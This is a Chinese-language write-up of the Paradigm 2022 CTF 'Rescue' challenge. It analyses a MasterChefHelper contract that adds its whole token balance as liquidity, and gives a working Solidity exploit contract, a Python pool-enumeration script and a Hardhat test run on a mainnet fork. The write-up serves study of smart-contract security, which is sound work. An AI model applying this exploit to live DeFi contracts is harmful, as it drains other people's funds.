

# paradigm 2022 ctf 题解
---

    author：Thomas_Xu
**环境配置**:
我重新搭了一个hardhat框架的测试环境,而由于题目出在以太坊的主链上,我使用`Alchemy`fork了一个主网节点进行测试.

## Resucue
首先先来看一下这道题目的描述:`  I accidentally sent some WETH to a contract, can you help me?`看起来像是由于操作失误,导致像一个合约转了一些ETH,想要完成此Challange就必须试图挽救一下这笔损失.
接下来看一看合约代码:
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.16;

import "./MasterChefHelper.sol";
interface WETH9 is ERC20Like {
    function deposit() external payable;
}

contract Setup {
    
    WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    MasterChefHelper public immutable mcHelper;

    constructor() payable {
        mcHelper = new MasterChefHelper();
        weth.deposit{value: 10 ether}();
        weth.transfer(address(mcHelper), 10 ether); // whoops
    }

    function isSolved() external view returns (bool) {
        return weth.balanceOf(address(mcHelper)) == 0;
    }

}
```
这是`Setup`合约,从中我们可以获取以下信息:
1. 我们不小心向`mcHelper`合约转了10 `ether`
2. 完成Challange的条件是要求`mcHelper`合约里没有这笔钱`return weth.balanceOf(address(mcHelper)) == 0;`
所以我们可能并不是要做到把这笔钱转回到我们账户上,而是只需要使这10个ETH从`mcHelper`消失即可.

有了上面的分析,似乎已经有了眉目,接下来分析`MasterChefLike`合约:
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.16;

import "./UniswapV2Like.sol";

interface ERC20Like {
    function transferFrom(address, address, uint) external;
    function transfer(address, uint) external;
    function approve(address, uint) external;
    function balanceOf(address) external view returns (uint);
}

interface MasterChefLike {
    function poolInfo(uint256 id) external returns (
        address lpToken,
        uint256 allocPoint,
        uint256 lastRewardBlock,
        uint256 accSushiPerShare
    );
}

contract MasterChefHelper {

    MasterChefLike public constant masterchef = MasterChefLike(0xc2EdaD668740f1aA35E4D8f227fB8E17dcA888Cd);
    UniswapV2RouterLike public constant router = UniswapV2RouterLike(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);

    function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        (address lpToken,,,) = masterchef.poolInfo(poolId);
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        ERC20Like(tokenIn).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

        // swap for both tokens of the lp pool
        _swap(tokenIn, tokenOut0, amountIn / 2);
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // add liquidity and give lp tokens to msg.sender
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
    }

    function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
        (,, uint256 amountOut) = router.addLiquidity(
            token0, 
            token1, 
            ERC20Like(token0).balanceOf(address(this)), 
            ERC20Like(token1).balanceOf(address(this)),             //WETH
            0, 
            0, 
            msg.sender, 
            block.timestamp
        );
        require(amountOut >= minAmountOut);
    }

    function _swap(address tokenIn, address tokenOut, uint256 amountIn) internal {
        address[] memory path = new address[](2);
        path[0] = tokenIn;
        path[1] = tokenOut;
        router.swapExactTokensForTokens(
            amountIn,
            0,
            path,
            address(this),
            block.timestamp
        );
    }
}
```
这个合约只有一个外部调用函数:`swapTokenForPoolToken()`所以我们可以集中目光研究此函数即可.
接下来我们一步一步分析这个函数:

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        (address lpToken,,,) = masterchef.poolInfo(poolId);					//获取poolId对应交易池
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();			//获取交易池对应的token
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        ERC20Like(tokenIn).approve(address(router), type(uint256).max);		//每个token都给router授权
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);//将要兑换的Weth发送到此合约

        // swap for both tokens of the lp pool
        _swap(tokenIn, tokenOut0, amountIn / 2);							//将兑换的Weth分别交换为两种token
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // add liquidity and give lp tokens to msg.sender
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);					
    }
```

在函数最后调用了一个添加流动性的函数，这可能就是这笔误转账最终的去向

```solidity
function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
        (,, uint256 amountOut) = router.addLiquidity(
            token0, 
            token1, 
            ERC20Like(token0).balanceOf(address(this)), 			//漏洞所在
            ERC20Like(token1).balanceOf(address(this)),             //
            0, 
            0, 
            msg.sender, 
            block.timestamp
        );
        require(amountOut >= minAmountOut);
    }
```

不难发现，这里添加流动性时，居然是把自己所有的余额全部发送到router里去`addLiquidity`，这是明显不合理的，只要我们能控制以下交易对的交换额，我们就可以把此合约的ETH余额全部加入到流动性池子当中。

## Exploit

对应以上的分析，想要解决此`Challange`,我们还得到两种token去控制流动性兑换的数量。

这里我们选择usdc和dai，在`etherscan`里可以查到`poolId`为1的时候对应的pair就是usdc和Weth,并可获得token对应的地址




当然我们也可以用脚本来获取交易对信息:
```python
import json

import web3
from web3 import Web3

RPC_URL = 'http://127.0.0.1:8545/b7cb95db-d484-4b12-8c94-08c92580eeec'
w3 = web3.Web3(web3.Web3.HTTPProvider(RPC_URL))
# 通过solc获得abi
MasterChefLikeAbi = '''
[{"inputs":[{"internalType":"uint256","name":"id","type":"uint256"}],"name":"poolInfo","outputs":[{"internalType":"address","name":"lpToken","type":"address"},{"internalType":"uint256","name":"allocPoint","type":"uint256"},{"internalType":"uint256","name":"lastRewardBlock","type":"uint256"},{"internalType":"uint256","name":"accSushiPerShare","type":"uint256"}],"stateMutability":"nonpayable","type":"function"}]
'''
UniswapV2pairLikeAbi = '''
[{"inputs":[],"name":"token0","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"token1","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"nonpayable","type":"function"}]
'''

setup_abi = '''
[{"inputs":[],"stateMutability":"payable","type":"constructor"},{"inputs":[],"name":"isSolved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"mcHelper","outputs":[{"internalType":"contract MasterChefHelper","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"weth","outputs":[{"internalType":"contract WETH9","name":"","type":"address"}],"stateMutability":"view","type":"function"}]
'''

erc20_abi = '''
[{"constant":true,"inputs":[],"name":"name","outputs":[{"name":"","type":"string"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"_spender","type":"address"},{"name":"_value","type":"uint256"}],"name":"approve","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"totalSupply","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"_from","type":"address"},{"name":"_to","type":"address"},{"name":"_value","type":"uint256"}],"name":"transferFrom","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[],"name":"decimals","outputs":[{"name":"","type":"uint8"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"_owner","type":"address"}],"name":"balanceOf","outputs":[{"name":"balance","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"symbol","outputs":[{"name":"","type":"string"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[{"name":"_to","type":"address"},{"name":"_value","type":"uint256"}],"name":"transfer","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":true,"inputs":[{"name":"_owner","type":"address"},{"name":"_spender","type":"address"}],"name":"allowance","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"payable":true,"stateMutability":"payable","type":"fallback"},{"anonymous":false,"inputs":[{"indexed":true,"name":"owner","type":"address"},{"indexed":true,"name":"spender","type":"address"},{"indexed":false,"name":"value","type":"uint256"}],"name":"Approval","type":"event"},{"anonymous":false,"inputs":[{"indexed":true,"name":"from","type":"address"},{"indexed":true,"name":"to","type":"address"},{"indexed":false,"name":"value","type":"uint256"}],"name":"Transfer","type":"event"}]
'''


def get_pair_info():
    mastercheflike = w3.eth.contract(address=Web3.toChecksumAddress('0xc2EdaD668740f1aA35E4D8f227fB8E17dcA888Cd'),abi=json.loads(MasterChefLikeAbi))
    for i in range(28):
        pool_info = mastercheflike.functions.poolInfo(i).call()
        # lpToken address
        lp_token = pool_info[0]
        pair = w3.eth.contract(address=Web3.toChecksumAddress(lp_token), abi=json.loads(UniswapV2pairLikeAbi))
        token0 = pair.functions.token0().call()
        token1 = pair.functions.token1().call()
        token0_contract = w3.eth.contract(address=Web3.toChecksumAddress(token0),abi=json.loads(erc20_abi))
        token1_contract = w3.eth.contract(address=Web3.toChecksumAddress(token1),abi=json.loads(erc20_abi))
        token0_name = token0_contract.functions.symbol().call()
        token1_name = token1_contract.functions.symbol().call()
        format_msg = f'pair_id:{i},lp_address:{lp_token},token0:{token0_name},token1:{token1_name}'
        print(format_msg)
        print(f'token0_address:{token0},token1_address:{token1}')


if __name__ == '__main__':
    get_pair_info()

```
获取到的交易对如下:
```
pair_id:0,lp_address:0x06da0fd433C1A5d7a4faa01111c044910A184553,token0:WETH,token1:USDT
pair_id:1,lp_address:0x397FF1542f962076d0BFE58eA045FfA2d347ACa0,token0:USDC,token1:WETH
pair_id:2,lp_address:0xC3D03e4F041Fd4cD388c549Ee2A29a9E5075882f,token0:DAI,token1:WETH
pair_id:3,lp_address:0xF1F85b2C54a2bD284B1cf4141D64fD171Bd85539,token0:sUSD,token1:WETH
pair_id:4,lp_address:0x31503dcb60119A812feE820bb7042752019F2355,token0:COMP,token1:WETH
pair_id:5,lp_address:0x5E63360E891BD60C69445970256C260b0A6A54c6,token0:LEND,token1:WETH
pair_id:6,lp_address:0xA1d7b2d891e3A1f9ef4bBC5be20630C2FEB1c470,token0:SNX,token1:WETH
pair_id:7,lp_address:0x001b6450083E531A5a7Bf310BD2c1Af4247E23D4,token0:UMA,token1:WETH
pair_id:8,lp_address:0xC40D16476380e4037e6b1A2594cAF6a6cc8Da967,token0:LINK,token1:WETH
pair_id:9,lp_address:0xA75F7c2F025f470355515482BdE9EFA8153536A8,token0:BAND,token1:WETH
pair_id:10,lp_address:0xCb2286d9471cc185281c4f763d34A962ED212962,token0:WETH,token1:AMPL
pair_id:11,lp_address:0x088ee5007C98a9677165D78dD2109AE4a3D04d0C,token0:YFI,token1:WETH
pair_id:12,lp_address:0x795065dCc9f64b5614C407a6EFDC400DA6221FB0,token0:SUSHI,token1:WETH
pair_id:13,lp_address:0x611CDe65deA90918c0078ac0400A72B0D25B9bb1,token0:REN,token1:WETH
pair_id:14,lp_address:0xaAD22f5543FCDaA694B68f94Be177B561836AE57,token0:sUSD,token1:$BASED
pair_id:15,lp_address:0x117d4288B3635021a3D612FE05a3Cbf5C717fEf2,token0:SRM,token1:WETH
pair_id:16,lp_address:0x95b54C8Da12BB23F7A5F6E26C38D04aCC6F81820,token0:YAMv2,token1:WETH
pair_id:17,lp_address:0x58Dc5a51fE44589BEb22E8CE67720B5BC5378009,token0:WETH,token1:CRV
pair_id:18,lp_address:0xDafd66636E2561b0284EDdE37e42d192F2844D40,token0:UNI,token1:WETH
pair_id:19,lp_address:0x36e2FCCCc59e5747Ff63a03ea2e5C0c2C14911e7,token0:xSUSHI,token1:WETH
```

我们可以写出以下攻击合约：

```solidity
pragma solidity 0.8.16;

import "./UniswapV2Like.sol";
import "./Setup.sol"; 
import "./MasterChefHelper.sol";
contract Exploit{
    
    constructor(Setup setup) payable {

        WETH9 weth = setup.weth();
		MasterChefHelper mcHelper = setup.mcHelper();
        UniswapV2RouterLike router = UniswapV2RouterLike(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);
        address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
        address dai = 0x6B175474E89094C44Da98b954EedeAC495271d0F;
		weth.approve(address(router), type(uint256).max);

		weth.deposit{value: 40 ether}();

		address[] memory path = new address[](2);

		path[0] = address(weth);
		path[1] = usdc;
		router.swapExactTokensForTokens(
			11 ether,
			0,
			path,
			address(mcHelper),
			block.timestamp
		);

		path[0] = address(weth);
		path[1] = dai;
		router.swapExactTokensForTokens(
			9 ether,
			0,
			path,
			address(this),
			block.timestamp
		);

		uint256 daiIn = 50 * 10 ** 18;								
		ERC20Like(dai).approve(address(mcHelper), type(uint256).max);
		mcHelper.swapTokenForPoolToken(1, dai, daiIn, 0);
    }
}

```

这里先用11个ETH去交换usdc,交换得到的usdc发送到`mcHelper`合约,这里的11个ETH其实只要大于10即可,目的是为了将`mcHelper`里的WETH全部加到流动性池子里.
然后我换一些dai到自己合约,以便于触发`mcHelper`的`swapTokenForPoolToken()`函数

js测试代码：

```javascript
const { expect } = require("chai");
const { ethers } = require('hardhat');
const masterLike = require('../contracts/rescue/MatserChefLike.json')
describe("Challange rescue", function() {
    let attacker,deployer;
    it("should return the solved", async function() {
        [attacker,deployer] = await ethers.getSigners();
        const Weth = await ethers.getContractAt("WETH9","0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2", attacker);
        const SetupFactory = await ethers.getContractFactory("Setup", attacker);
  
        const setup = await SetupFactory.deploy({
            value: ethers.utils.parseEther("50")
        });
        
        //Exploit
        // let abi = [{"inputs":[{"internalType":"uint256","name":"id","type":"uint256"}],"name":"poolInfo","outputs":[{"internalType":"address","name":"lpToken","type":"address"},{"internalType":"uint256","name":"allocPoint","type":"uint256"},{"internalType":"uint256","name":"lastRewardBlock","type":"uint256"},{"internalType":"uint256","name":"accSushiPerShare","type":"uint256"}],"stateMutability":"nonpayable","type":"function"}];
        // let contractAddress = "0xc2EdaD668740f1aA35E4D8f227fB8E17dcA888Cd";
        // let provider = await ethers.getDefaultProvider();
        // const MasterLike = new ethers.Contract(contractAddress, abi, provider);
        // // const MasterLike = await ethers.getContractAt("MasterChefLike","0xc2EdaD668740f1aA35E4D8f227fB8E17dcA888Cd", deployer);
        // for(let i = 0; i < 5; i++){
        //     let tx = await MasterLike.connect(attacker).poolInfo(i);
        //     let pool_info = await tx.wait();
        //     // let pool_info = MasterLike.connect(attacker).poolInfo(i);
        //     // let lp_token = tx[i];
        //     // console.log(pool_info);
        //     console.log(tx);
        //     console.log(pool_info);
        // }

        const ExploitFactory = await ethers.getContractFactory("Exploit",attacker);
        const exploit = await ExploitFactory.deploy(setup.address, {value : ethers.utils.parseEther("50")});

        expect(await setup.isSolved()).to.equal(true)
    });
  });
  
```

